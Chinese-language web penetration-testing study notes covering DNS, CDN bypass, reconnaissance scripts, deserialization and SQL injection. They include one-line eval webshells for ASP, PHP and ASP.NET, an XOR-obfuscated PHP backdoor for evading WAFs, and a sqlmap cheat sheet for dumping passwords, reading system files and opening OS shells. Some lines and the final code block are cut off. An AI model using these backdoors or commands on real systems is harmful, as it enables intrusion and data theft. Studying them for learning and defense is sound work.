# Web安全

小迪的大部分笔记:https://www.yuque.com/weiker/xiaodi

(https://www.cnblogs.com/zzjdbk/p/13234664.html)

## 介绍

### 概念名词

#### 域名

地址的名称

注册:阿里云 万网等等  

二级域名、多级域名

.com为顶级域名

www为子域名

news、tieba这种称为二级域名

多级域名则是前面还有地址

TTL域名的生命周期 即生效时间

通过域名可以搜集多种信息 一般可能主站进不去 就可以从其他旁站(域名有相同的地方)测试

因为他们可能是同一台服务器

#### DNS

域名系统(服务)协议

作用: 域名和ip地址的相互转换

windos当前用户对host文件的权限 可在host属性的安全选项中设置

本地Hosts(存在C:\Windows\System32\drivers\etc\hosts下):

 可以重定向你的网站解析ip地址 也就是可以实现钓鱼工具

dns解析: dns 缓存->本地host->dns服务器

超级ping工具 可以解析不同节点同一个网站ip

CDN:  内容分布网络 节点技术 缓存节点技术 即中间商


所以在进行网站扫描时 可能扫到的ip为当前的缓冲节点CDN节点 扫不到真实的ip

dns刷新命令 ipconfig/flushdns

dns改变之后 cdn会根据修改后的dns就近选择节点

DNS攻击: dns劫持 dns缓存

dns服务遭受攻击 会让你重定向网站

#### 脚本语言

常见脚本语言:asp、php、aspx、jsp、javaweb、py、pl、cgi、js

对于漏洞需要懂得脚本语言与其的关系 语言的框架 安全机制等等

#### 后门

简介:可以直接进去到内部的把柄 比如webshell 、远控 大多为网站和服务器上的后门

用于控制网站

意义:1、方便入侵 2、获取权限

涉及远控、免杀等等

免杀:就比如360杀毒软件 后门被检测到时会被删除 所以免杀就是为了防止被删除 

#### WEB

组成架构模型:网站源码、操作系统、中间件(搭建平台)、数据库

网站源码分为:1.脚本语言 2.应用方向

中间件:apacha、tomcat、nginx、iis

#### web常见漏洞

web源码对应漏洞、SQL注入、上传文件、xss、代码执行、变量覆盖、逻辑漏洞、反序列化

web中间件漏洞、web数据库、web系统层、第三方软件、app或pc 

子域名挖掘机:Layer

### 数据包

> - Request请求数据包
> - Response响应数据包
> - 存在代理服务器Proxy


#### 两种协议访问

> - http协议 未加密 单纯的传送协议
> - https协议 加密协议 通过TLS SSL加密


**HTTPS简要通信**


**HTTP简要通信**

建立连接->发送请求数据包->返回响应数据包->关闭连接

1.浏览器建立与web服务器之间的连接

2.浏览器将请求数据打包(生成请求数据包)并发送给web服务器

3.web服务器将处理结果打包(生成结果数据包)返回给浏览器

4.web关闭连接

#### 状态响应码


X-Forwarded-For可以用于伪造ip 在投票机制中可能会用到

UA头伪装NetType


UA伪装微信:

> - IOS平台: Mozilla/5.0 (iPhone; CPU iPhone OS 17_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148 MicroMessenger/8.0.51(0x1800332c) NetType/WIFI Language/zh_CN
> - 安卓平台: Mozilla/5.0 (Linux; Android 14; SM-S9180) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Mobile Safari/537.36 MMWEBID/xxxx MicroMessenger/8.0.51.2401(0x28003353) WeChat/arm64 NetType/WIFI Language/zh_CN


#### 涉及资源

https://www.mozhe.cn (CTF或实际应用中部分考题解析)

https://www.bgsafe.cn/thread-52.html

ip.chinaz.com

### 搭建安全

> 1.常见搭建平台脚本启用
>
> 2.域名ip目录解析安全问题
>
> 3.常见文件后缀解析对应安全
>
> 4.常见安全测试中的安全防护
>
> 5.web后门与用户及文件权限

#### 一系列问题

asp、php、aspx、jsp、py、javaweb等环境

web源码中敏感文件、后台路径、数据库配置文件、备份文件等

ip或域名解析web源码目录下的存在的安全问题 域名访问 ip访问(结合类似备份文件目录)

脚本后缀对应解析(其他格式可相同-上传安全)

存在下载或解析问题

常见防护中的ip验证 域名验证等

后门是否给予执行权限

后门是否给予操作目录或文件权限

后门是否给予其他用户权限

#### 域名或IP扫描

目录扫描工具:WebBrute

使用域名扫描：它会直接扫到本目录下 即网站放至的一个目录

使用IP扫描：能够扫到上一级目录 即网站存放的目录的上一级目录 (根目录)

例如:keji\www\blog     使用域名扫描的话 直接扫到的是blog

使用ip扫描的话是扫到www目录 这就是两者的不同

ip地址为大文件夹 域名地址为小文件夹

#### 文件后缀

即一个文件上传的时候可以通过它的可执行文件路径进行一个解析 以此达到上传成功的目的 拿到后门权限 获得webshell 

比如 asp对应的即为asp.dll 

asp后门 ：<%eval request("chopper")%>

php：<?php @eval($_POST['chopper']);?>

asp.net：<%@ Page Language="Jscript"%><%eval(Request.Item["chopper"],"unsafe");%>

(注意:asp.net要单独一个文件或此文件也是Jscript脚本)

后门连接:菜刀、蚁剑

#### 安全测试中的安全防护

身份验证和访问控制

比如学校内网 需要一个身份认证才可进入 


IP地址和域名限制 

1.白名单 授权访问 即只允许这么多访问

2.黑名单 拒绝访问


#### web后门与用户及文件权限

通过webshell拿到用户的权限 在Windows下拒绝大于允许

进去之后需要提权 通过目录去拿权限

在一般的情况下我们会对某个目录取消执行权限、最典型的就是图片目录这个目录只放图像没有脚本我们会取消执行的权限、这样我们可以防范一部分的文件上传漏洞、即使开发写的代码有问题也不会导致服务器出现安全事故。
   绕过方法：
 如果我们上传的文件如果不能正常的执行那么将文件放在其他目录、例如网站的根目录下面

- 后门是否给予执行权限
- 后门是否给予操作目录或文件权限
- 后门是否给予其他用户权限

涉及资源 https://www.vulhub.org/ 一个开源的搭建漏洞环境

https://www.vulnhub.com/ 靶场环境 类似墨者一样的 拿flag

网络抓包工具:http://www.downcc.com/soft/11196.html 

#### 中间件

辨识中间件的搭建:通过抓数据包中的响应头文件找Server 里面便有搭建的中间件平台 一般中间件可以隐藏与伪装

### 源码拓展

#### 概念

web源码在测试中重要的信息来源 用来代码审计漏洞或者做信息突破

比如：获取asp源码后可以采用默认数据库下载为突破 获取某其他脚本源码漏洞进行代码审计挖掘或分析业务逻辑

#### 源码目录结构

1.后台目录

2.模版目录

3.数据库目录

4.数据库配置文件目录

..........

#### 源码脚本类型

1.asp   2.php  3.aspx  4.jsp   5.javaweb  6.python

各种语言之间的数据库存储/解释或编译型/语言安全

#### 源码应用分类

1.门户  综合类型

2.电商  业务逻辑

3.论坛  xss 逻辑

4.博客  较少

5.第三方  功能决定

6.其他

#### 其他应用

1.框架或非框架  

2.cms识别  人工、工具、平台识别

3.开源或内部 

开源：直接找漏洞或进行审计

内部：常规渗透

4.源码获取

备份获取、cms识别后获取、特定源码特定获取

获取文件的md5值 certutil -hashfile 文件名.文件类型 MD5

相关资源：(https://websec.readthedocs.io/zh/latest/basic/index.html)

### 系统及数据库



1.操作系统：

1）识别操作系统的常见方法

大小写区分（Windows对于大小写不敏感  Linux不行）

nmap识别   nmap -O



（TTL不够准确 有误差）

2）两个不同系统的区别及其识别意义

3）操作系统层面漏洞类型对应意义

远程代码  ddos等等  经典的永恒之蓝（MS17-010）

4）漏洞影响范围

2.数据库：

1）识别的常用方法

根据脚本语言与其常用的数据库连接 

端口扫描 mysql 3306 sqlserver 1433  oracle 1521  MongoDB  27017  redis 6379 

端口信息：opened/unfiltered 端口处于开放或未过滤状态

2）区别及其意义

3）常见漏洞类型及其意义

4）漏洞影响范围



3.第三方：

1）判断有哪些第三方平台或软件

2）为什么要识别第三方

3）常见的第三方

4）第三方平台或安全测试的范围

snetcrack 超级弱口令检测工具

https://github.com/hellogoldsnakeman/masnmapscan-V1.0 可以做简单信息扫描 比nmap快点

nmap常见扫描：







### 加密解密算法

常见算法加密编码

MD5 sha asc 进制 时间戳 url base64 unescape aes des

加密形式算法分析

直接加密 带salt  带密码  带偏移  带位数  带模式  带干扰  自定义组合

解密方法（针对）

枚举 自定义逆向算法 可逆向

加密算法特性 

长度位数 字符规律 代码分析 搜索获取

解密在线工具：(http://tool.chacuo.net/cryptserpent)

https://www.cmd5.com/

https://tool.lu/timestamp/

## CDN技术

CDN简介：





  判断CDN服务：

利用多节点技术请求返回判断 （超级ping）   

CDN常见的绕过技术：

1.子域名查询

2.邮件服务查询

3.国外地址请求

4.遗留文件，扫描全网

5.黑暗引擎搜索特定文件（shodan  zoomeye    fofa   钟馗之眼    get-site-ip.com  x.threathbook.cn(查dns记录)）

https://asm.ca.com/en/ping.php（可以查国外地址）

6.dns历史记录

CDN真实IP地址获取后绑定指向地址：

更改本地HOSTS解析指向文件

通过扫描网站的标签获取其标签的hash值进行信息收集的脚本

拿到hash值后去fofa等黑暗引擎中收集信息



扫描全网软件：

fuckcdn w8fuckcdn  zmap

## 信息收集



站点搭建：
1.目录型站点

不同目录会出现不同的网站页面 出现不一样的程序服务

2.端口类站点

通过不同的端口号进行访问不同的站点

3.子域名站点

4.类似域名站点

5.旁注，C段站点

旁注：同一服务器不同站点

服务器：192.168.1.100（前提就是存在多个站点）

站点：www.a.com    www.b.com ............

还有一种独立站点服务器比如C段

C段：同网段不同服务器不同站点

服务器：192.168.1.100

站点：www.a.com    www.b.com ............

服务器：192.168.1.101

站点：www.c.com    www.d.com ............

6.搭建软件特征站点

WAF介绍：

web应用防护系统（防火墙）

识别waf工具：wafw00f

**漏了个大洞**可以用来提取app信息以及反编译 或者Android Killer

Gobuster一款收集工具

 Github监控
  便于收集整理最新exp或poc
  便于发现相关测试目标的资产

~~~python
# Title: wechat push CVE-2020
# Date: 2020-5-9
# Exploit Author: weixiao9188
# Version: 4.0
# Tested on: Linux,windows
# coding:UTF-8
import requests
import json
import time
import os
import pandas as pd
time_sleep = 20 #每隔20秒爬取一次
while(True):
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.25 Safari/537.36 Core/1.70.3741.400 QQBrowser/10.5.3863.400"}
    #判断文件是否存在
    datas = []
    response1=None
    response2=None
    if os.path.exists("olddata.csv"):
        #如果文件存在则每次爬取10个
        df = pd.read_csv("olddata.csv", header=None)
        datas = df.where(df.notnull(),None).values.tolist()#将提取出来的数据中的nan转化为None
        response1 = requests.get(url="https://api.github.com/search/repositories?q=CVE-2020&sort=updated&per_page=10",
                                 headers=headers)
        response2 = requests.get(url="https://api.github.com/search/repositories?q=RCE&ssort=updated&per_page=10",
                                 headers=headers)

    else:
        #不存在爬取全部
        datas = []
        response1 = requests.get(url="https://api.github.com/search/repositories?q=CVE-2020&sort=updated&order=desc",headers=headers)
        response2 = requests.get(url="https://api.github.com/search/repositories?q=RCE&ssort=updated&order=desc",headers=headers)

    data1 = json.loads(response1.text)
    data2 = json.loads(response2.text)
    for j in [data1["items"],data2["items"]]:
        for i in j:
            s = {"name":i['name'],"html":i['html_url'],"description":i['description']}
            s1 =[i['name'],i['html_url'],i['description']]
            if s1 not in datas:
                #print(s1)
                #print(datas)
                params = {
                     "text":s["name"],
                    "desp":" 链接:"+str(s["html"])+"\n简介"+str(s["description"])
                }
                print("当前推送为"+str(s)+"\n")
                print(params)
                requests.get("https://sc.ftqq.com/XXXX.send",params=params,timeout=10)
                #time.sleep(1)#以防推送太猛
                print("推送完成!")
                datas.append(s1)
            else:
                pass
                #print("数据已处在!")
    pd.DataFrame(datas).to_csv("olddata.csv",header=None,index=None)
    time.sleep(time_sleep)
~~~

子域名查询



全自动域名收集

https://github.com/bit4woo/teemo



layer子域名工具  

cdn：tools.ipip.net/cdn.php

## Web漏洞



漏洞平台：https://github.com/zhuifengshaonianhanlu/pikcachu

## python简单开发收集信息

1.域名获取IP

~~~python
#先判断cdn信息 使用nslookup命令进行结果解析ip数目 判断是否存在cdn
ip = socket.getaddrinfo('域名',port)
#port 代表端口号或者服务名
otherIp = socket.gethostbyname('域名')
~~~

os.system调用的系统命令不能够操作只能观看

~~~python
cdn_data = os.poen('nslookup 域名').read()
print(cdn_data)
#查找点数进行判断 拿取ip判断cdn
#其实也可以通过判断出来的address address超过一个的就说明有cdn
~~~

端口扫描

~~~python
#原生态写socket协议tcp，udp扫描
ip = socket.gethostbyname(url)
server = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
res = server.connect_ex(('ip地址','port'))
if res ==0:
    print('open')
else:
    print('close')
#调用第三方模块扫描

#调用系统工具脚本执行
~~~

~~~python
#whois查询
#第三方库或者网上接口都可以
data = whois('域名')
print(data)
~~~

~~~python
#子域名查询
#利用字典加载爆破查询
#利用bing或者第三方接口进行查询
for zym_data in open('字典'):
    zym_data = zym_data.replace('\n','')
    url = zym_data + '.域名'
    print(url)
#再使用socket获取ip地址    
~~~

不太好的脚本

~~~python
# import socket,os,time,sys
# import whois
#
#
# #ip查询
# def ip_check(url):
#     ip = socket.gethostbyname(url)
#     print(ip)
#
# #whois查询
# def whois_check(url):
#     data = whois(url)
#     print(data)
#
# #cdn查询
# def cdn_check(url):
#     ns = 'nslookup ' +url
#     data = os.popen(ns).read()
#     if data.count('.') > 8:
#         print('存在cdn')
#     else:
#         print('不存在cdn')
#
# #端口扫描
# def port_scan(url):
#     ports = {'21','22','135','443','445',
#              '80','1433','3306','3389',
#              '1521','8000','7002','7001','8080','9090','8089','4848'}
#     server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
#     for port in ports:
#         res = server.connect_ex((url, port))
#         if res == 0:
#             print('open')
#         else:
#             print('close')
#
# #子域名查询
# def zym_data_check(url):
#     urls = url.replace('www','')
#     #内置的常见的子域名
#     common_subdomains = ['www', 'mail', 'ftp', 'localhost', 'webmail', 'smtp', 'pop', 'ns1', 'webdisk', 'ns2',
#                          'cpanel', 'whm', 'autodiscover', 'autoconfig', 'm', 'imap', 'test', 'ns', 'blog',
#                          'pop3', 'dev', 'www2', 'admin', 'forum', 'news', 'vpn', 'ns3', 'mail2', 'new',
#                          'mysql', 'old', 'lists', 'support', 'mobile', 'mx', 'static', 'docs', 'beta',
#                          'shop', 'sql', 'secure', 'demo', 'cp', 'calendar', 'wiki', 'web', 'media', 'email']
#     # for zym_data in open('dic.txt'): #通过字典爆破
#     for zym_data in common_subdomains: #内置的子域名 常见的
#         zym_data = zym_data.replace('\n','')
#         url = zym_data + urls
#         try:
#             ip = socket.gethostbyname(url)
#             print(url + '->' + ip)
#             time.sleep(2)
#         except Exception as e:
#             pass
#
#
# if __name__ == '__main__':
#     check = sys.argv[1]
#     url = sys.argv[2]
#     if check == 'all':
#         ip_check(url)
#         whois_check(url)
#         cdn_check(url)
#         port_scan(url)
#         zym_data_check(url)

~~~

## python漏洞检测利用



实现漏洞批量化：
1.获取到可能存在漏洞的地址的信息 可以通过fofa  （对数据进行筛选）

2.批量请求地址信息进行判断是否存在

lxml数据提取

~~~python
#初始化解析html生成一个etree对象
soup = etree.HTML(res)
~~~


**爬虫的基本流程**

**发送HTTP请求**：使用库如*requests*向目标网站发送请求，获取HTML页面。**解析HTML内容**：通过*BeautifulSoup*等工具解析网页，提取需要的数据。**存储数据**：将提取的数据保存到文件（如CSV、JSON）或数据库中。

用于检测爬虫的辅助

Postman/Insomnia：用于模拟http请求 查看响应头

Charles / Fiddler：抓包工具，可调试 AJAX 请求、Cookie、headers 等

主要会用到的模块

requests BeautifulSoup Scrapy Selenium Playwright 异步爬虫

请求前务必查看目标站点的 `robots.txt`（通常在 `https://example.com/robots.txt`），遵从抓取规则

不要对目标站点造成过大压力，建议设置合适的延时(`time.sleep`)、并发数限制



解析HTML使用BeautifulSoup

~~~python
soup = BeautifulSoup(html_text, 'lxml')  # 或 'html.parser'
~~~



将爬取到的数据保存为csv/json

~~~python
import csv

data = [
    {'title': '第一篇', 'url': 'https://...'},
    {'title': '第二篇', 'url': 'https://...'},
    # ...
]

with open('result.csv', mode='w', newline='', encoding='utf-8-sig') as f:
    fieldnames = ['title', 'url']
    writer = csv.DictWriter(f, fieldnames=fieldnames)
    writer.writeheader()
    for item in data:
        writer.writerow(item)
~~~

encoding='utf-8-sig'能兼容excel打开时不出现乱码

~~~python
import json

data = [
    {'title': '第一篇', 'url': 'https://...'},
    {'title': '第二篇', 'url': 'https://...'},
    # ...
]

with open('result.json', 'w', encoding='utf-8') as f:
    json.dump(data, f, ensure_ascii=False, indent=4)
~~~

SQLite适合小规模项目

~~~python
import sqlite3

conn = sqlite3.connect('spider.db')
cursor = conn.cursor()
# 创建表（如果不存在）
cursor.execute('''
    CREATE TABLE IF NOT EXISTS articles (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        title TEXT,
        url TEXT UNIQUE
    );
''')
# 插入数据
items = [
    ('第一篇', 'https://...'),
    ('第二篇', 'https://...'),
]
for title, url in items:
    try:
        cursor.execute('INSERT INTO articles (title, url) VALUES (?, ?)', (title, url))
    except sqlite3.IntegrityError:
        pass  # URL 已存在就跳过
conn.commit()
conn.close()
~~~

常见反爬措施及应对策略

User-Agent检测

默认requests的User-Agent大多被识别为爬虫 容易被屏蔽

所以在请求头中随机挑选常用浏览器User-Agent

~~~python
import random

USER_AGENTS = [
    'Mozilla/5.0 ... Chrome/100.0.4896.127 ...',
    'Mozilla/5.0 ... Firefox/110.0 ...',
    'Mozilla/5.0 ... Safari/605.1.15 ...',
    # 更多可从网上获取
]
headers = {'User-Agent': random.choice(USER_AGENTS)}
response = requests.get(url, headers=headers)
~~~

IP限制

同一IP在短时间内发送过多请求会被封禁

Cookie验证

有的网站需要登录才能访问完整内容 所以可以先模拟登录获取cookie 在请求中带上

使用函数 requests.session()管理会话 同一session自动保存并发送cookie

~~~python
import requests

session = requests.Session()
login_data = {'username': 'xxx', 'password': 'xxx'}
session.post('https://example.com/login', data=login_data)
# 登录成功后，session 自动保存了 Cookie
response = session.get('https://example.com/protected-page')
~~~

验证码检测

ajax/动态渲染

- 如果页面数据是通过 JavaScript 动态加载，直接用 `requests` 只能获取静态 HTML。
- 应用：可分析 AJAX 请求接口（Network 面板），直接请求接口返回的 JSON；或使用浏览器自动化工具（Selenium/Playwright）模拟浏览器渲染

lxml（XPath）基于 C 语言实现，解析速度快，支持标准的 XPath 查询

~~~python
from lxml import etree

html = '''<html><body>
    <div class="post"><h2><a href="/p1">文章A</a></h2></div>
    <div class="post"><h2><a href="/p2">文章B</a></h2></div>
</body></html>'''

# 1. 将文本转换为 Element 对象
tree = etree.HTML(html)

# 2. 使用 XPath 语法提取所有链接文本和 href
titles = tree.xpath('//div[@class="post"]/h2/a/text()')
links = tree.xpath('//div[@class="post"]/h2/a/@href')

for t, l in zip(titles, links):
    print(t, l)
# 输出：
# 文章A /p1
# 文章B /p2
~~~




## python的多线程以及waf绕过

相关的资源：fuzzdb-master

免杀异或（Php异或常见）：`<?php $a =("!"^"@").'ssert';$a($_POST[x]); ?>`这个后门代码的意义是将ASCII的字符`"!"，"@"`通过异或运算(^)得到a，组成PHP中assert函数执行代码，由于运算复杂在waf中没有实现检查功能而从绕过waf。

异或：两个数的二进制相同为0 不同为1



最后两个相加




## php反序列化













可以去尝试网鼎杯2020青龙组中的一道题



## java反序列化



常用工具：ysoserial     

 serializationdumper(java序列化流可视化)

该工具通过命令行接受十六进制ASCII编码的字节、文件中的十六进制ASCII编码或直接读取包含原始序列化数据的文件。它不仅可以解析流中的信息，自2018年12月19日更新后，还能逆向操作，将已转储的序列化流转换回原始字节流，允许你在文本层面对序列化数据进行修改后再重构为二进制流

shiro反序列化综合工具

shiro框架也存在反序列化漏洞

主要标识在于登录认证时出现cookie值 rememberMe = deleteMe









可以去做2020网鼎杯朱雀组的think_java





## python ssti模版注入 反序列化

2019CISCN华北赛区 Day1 Web2 支付逻辑 jwt安全 反序列化





c-jwt-cracker可以用来爆破jwt令牌的加密算法指令 签名

python_sec主要讲解各种python的漏洞



WesternCTF2018 shrine

ssti可能会存在绕过 过滤 所以寻找时需要进行黑名单的绕过 

除此还可以使用url_for()函数 flask框架中的一个函数 可以构建指定函数的url

python格式化字符串



如果参数可控 即可以对参数进行伪造 造成攻击

## SQL注入



sql注入发生原因：

1.可控变量

2.带入数据库查询

3.变量未存在过滤或过滤不严重

**MySql数据库**

数据库A=网站A=数据库用户A

​	表名

​			列名

​					数据

数据库B=网站B=数据库用户B

   .....................和上面一样

如何判断注入点

老办法： and 1 = 1 页面正常

and 1 = 2 页面不正常 

则说明存在注入点

或 or 

且 and

异或 xor

有的输错之后会有跳转 说明是没有漏洞的

判断完注入之后

猜解列名数量（字段数）**order by x 找到错误与正常的值**

猜解完之后 让它报错

进行信息收集

数据库版本：version()

 数据库名字：database()

数据库用户：user()

操作系统：@@version_compile_os

mysql5.0以上版本 存在一个数据库名information_schema 它是一个存储记录所有数据库名，列名，表名的数据库 所以可以通过它来查询

数据库中符号"."代表下一级 database.user表示该数据库下的user表名

schema：数据库

schema_name：名字

information_schema.tables：记录所有表名信息的表

information_schema.columns：记录所有列名信息的表

information_schema.schemata：记录所有的数据库信息

select schema_name information_schema.schemata 等同于show databases()

table_name：表名

column_name：列名

table_schema：数据库名

current_user()当前用户名

session_user() 连接当前数据库的用户名

@@basedir mysql安装路径

@@datadir 数据库路径

字符串连接函数

concat：concat(str1,str2,...)将多个字符串连接成一个字符串

返回结果为连接参数产生的字符串，如果有任何一个参数为null，则返回值为null。

值得注意的是每次只返回的是一行的数据



group_concat函数：将所有的查询结果拼接成一个字符串返回，不过在不同的字段值之间默认是用逗号隔开的



concat_ws函数：和concat()一样，将多个字符串连接成一个字符串，但是可以一次性指定分隔符（concat_ws就是concat with separator）concat_ws(separator, str1, str2, ...)





文件读写操作：

load_file()读取函数

into outfile或into dumpfile 导出函数

路径获取常见方法：

报错显示   遗留文件   漏洞报错   平台配置文件   爆破

Windows：/wwwroot/

Linux：/var/www/

写入文件会存在魔术引号开关

 Php中magic_quotes_gpc

当这个被打开时 输入的数据存在单引号 双引号 反斜线 NULL 等字符 都会被加上反斜线转义

可以通过编码进行绕过

addslashes()函数也会进行转义

主要存在的类型：

数字，字符，搜索，json等

请求方法：
GET，POST，COOKIE，HTTP头，REQUEST，SERVER等

request全部接收

server可以获取到一些信息 比如操作系统、当前用ip等 所以如果有使用这种方法的可以在http头中进行注入

SQL语句干扰符号：',",%,),}

--+注释符 将sql语句后面注释掉    #也可以

注入时还要注意单引号闭合

需要用到的工具：

**sqlmap，nosqlattack，pangolin**

access主要是与asp搭建

access：(不会存在跨库注入)

​	表名	

​			列名

​					数据

其他的mysql等

​	数据库名

 			表名

​					列名

​							数据

sqlmap常用

~~~text
基本操作笔记：-u  #注入点 
-f  #指纹判别数据库类型 
-b  #获取数据库版本信息 
-p  #指定可测试的参数(?page=1&id=2 -p "page,id") 
-D ""  #指定数据库名 
-T ""  #指定表名 
-C ""  #指定字段 
-s ""  #保存注入过程到一个文件,还可中断，下次恢复在注入(保存：-s "xx.log"　　恢复:-s "xx.log" --resume) 
--level=(1-5) #要执行的测试水平等级，默认为1 
--risk=(0-3)  #测试执行的风险等级，默认为1 
--time-sec=(2,5) #延迟响应，默认为5 
--data #通过POST发送数据 
--columns        #列出字段 
--current-user   #获取当前用户名称 
--current-db     #获取当前数据库名称 
--users          #列数据库所有用户 
--passwords      #数据库用户所有密码 
--privileges     #查看用户权限(--privileges -U root) 
-U               #指定数据库用户 
--dbs            #列出所有数据库 
--tables -D ""   #列出指定数据库中的表 
--columns -T "user" -D "mysql"      #列出mysql数据库中的user表的所有字段 
--dump-all            #列出所有数据库所有表 
--exclude-sysdbs      #只列出用户自己新建的数据库和表 
--dump -T "" -D "" -C ""   #列出指定数据库的表的字段的数据(--dump -T users -D master -C surname) 
--dump -T "" -D "" --start 2 --top 4  # 列出指定数据库的表的2-4字段的数据 
--dbms    #指定数据库(MySQL,Oracle,PostgreSQL,Microsoft SQL Server,Microsoft Access,SQLite,Firebird,Sybase,SAP MaxDB) 
--os      #指定系统(Linux,Windows) 
-v  #详细的等级(0-6) 
    0：只显示Python的回溯，错误和关键消息。 
    1：显示信息和警告消息。 
    2：显示调试消息。 
    3：有效载荷注入。 
    4：显示HTTP请求。 
    5：显示HTTP响应头。 
    6：显示HTTP响应页面的内容 
--privileges  #查看权限 
--is-dba      #是否是数据库管理员 
--roles       #枚举数据库用户角色 
--udf-inject  #导入用户自定义函数（获取系统权限） 
--union-check  #是否支持union 注入 
--union-cols #union 查询表记录 
--union-test #union 语句测试 
--union-use  #采用union 注入 
--union-tech orderby #union配合order by 
--data "" #POST方式提交数据(--data "page=1&id=2") 
--cookie "用;号分开"      #cookie注入(--cookies=”PHPSESSID=mvijocbglq6pi463rlgk1e4v52; security=low”) 
--referer ""     #使用referer欺骗(--referer "http://www.baidu.com") 
--user-agent ""  #自定义user-agent 
--proxy "http://127.0.0.1:8118" #代理注入 
--string=""    #指定关键词,字符串匹配. 
--threads 　　  #采用多线程(--threads 3) 
--sql-shell    #执行指定sql命令 
--sql-query    #执行指定的sql语句(--sql-query "SELECT password FROM mysql.user WHERE user = 'root' LIMIT 0, 1" ) 
--file-read    #读取指定文件 
--file-write   #写入本地文件(--file-write /test/test.txt --file-dest /var/www/html/1.txt;将本地的test.txt文件写入到目标的1.txt) 
--file-dest    #要写入的文件绝对路径 
--os-cmd=id    #执行系统命令 
--os-shell     #系统交互shell 
--os-pwn       #反弹shell(--os-pwn --msf-path=/opt/framework/msf3/) 
--msf-path=    #matesploit绝对路径(--msf-path=/opt/framework/msf3/) 
--os-smbrelay  # 
--os-bof       # 
--reg-read     #读取win系统注册表 
--priv-esc     # 
--time-sec=    #延迟设置 默认--time-sec=5 为5秒 
-p "user-agent" --user-agent "sqlmap/0.7rc1 (http://sqlmap.sourceforge.net)"  #指定user-agent注入 
--eta          #盲注 
/pentest/database/sqlmap/txt/
common-columns.txt　　字段字典　　　 
common-outputs.txt 
common-tables.txt      表字典 
keywords.txt 
oracle-default-passwords.txt 
user-agents.txt 
wordlist.txt 

常用语句 :
1./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db --users --passwords --dbs -v 0 
2./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --passwords -U root --union-use -v 2 
3./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --dump -T users -C username -D userdb --start 2 --stop 3 -v 2 
4./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --dump -C "user,pass"  -v 1 --exclude-sysdbs 
5./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --sql-shell -v 2 
6./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --file-read "c:\boot.ini" -v 2 
7./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --file-write /test/test.txt --file-dest /var/www/html/1.txt -v 2 
8./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-cmd "id" -v 1 
9./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-shell --union-use -v 2 
10./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-pwn --msf-path=/opt/framework/msf3 --priv-esc -v 1 
11./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-pwn --msf-path=/opt/framework/msf3 -v 1 
12./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-bof --msf-path=/opt/framework/msf3 -v 1 
13./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --reg-add --reg-key="HKEY_LOCAL_NACHINE\SOFEWARE\sqlmap" --reg-value=Test --reg-type=REG_SZ --reg-data=1 
14./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --eta 
15./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_str_brackets.php?id=1" -p id --prefix "')" --suffix "AND ('abc'='abc"
16./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/basic/get_int.php?id=1" --auth-type Basic --auth-cred "testuser:testpass"
17./sqlmap.py -l burp.log --scope="(www)?\.target\.(com|net|org)"
18./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3 
19./sqlmap.py -u "http://192.168.136.131/sqlmap/mssql/get_int.php?id=1" --sql-query "SELECT 'foo'" -v 1 
20./sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --common-tables -D testdb --banner 
21./sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --cookie="PHPSESSID=mvijocbglq6pi463rlgk1e4v52; security=low" --string='xx' --dbs --level=3 -p "uid"

简单的注入流程 :
1.读取数据库版本，当前用户，当前数据库 
sqlmap -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db -v 1 
2.判断当前数据库用户权限 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --privileges -U 用户名 -v 1 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --is-dba -U 用户名 -v 1 
3.读取所有数据库用户或指定数据库用户的密码 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --users --passwords -v 2 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --passwords -U root -v 2 
4.获取所有数据库 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dbs -v 2 
5.获取指定数据库中的所有表 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --tables -D mysql -v 2 
6.获取指定数据库名中指定表的字段 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --columns -D mysql -T users -v 2 
7.获取指定数据库名中指定表中指定字段的数据 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dump -D mysql -T users -C "username,password" -s "sqlnmapdb.log" -v 2 
8.file-read读取web文件 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-read "/etc/passwd" -v 2 
9.file-write写入文件到web 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-write /localhost/mm.php --file使用sqlmap绕过防火墙进行注入测试：
~~~

mssql（SQLserve）

1.判断数据库类型

and exits (select count(*) from sysobjects)>0--



postgresql注入

注意注释符号--+

联合查询语句

~~~postgresql
